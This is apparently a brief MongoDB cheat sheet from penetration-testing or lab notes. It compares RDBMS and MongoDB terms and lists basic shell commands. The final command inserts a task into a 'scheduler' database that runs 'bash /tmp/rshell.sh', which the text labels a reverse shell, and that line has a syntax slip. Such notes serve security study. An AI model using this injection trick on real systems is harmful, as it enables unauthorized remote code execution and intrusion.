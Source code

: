 # Structure comparison
| RDBMS| MongoDB |
|---|---|
| Database | Database |
| Tables | Collections |
| Rows | Documents |
| Columns | Fields |

---

# Misc. commands
```mongodb
# Lists the database name
> db
scheduler

# Shows all the tables in the database - equivalent to 'show tables'
> show collections
tasks

# List content in tasks table - equivalent to 'select * from tasks'
> db.tasks.find()

# Insert document that contains a reverse shell
> db.tasks.insert({cmd: "bash /tmp/rshell.sh")}
```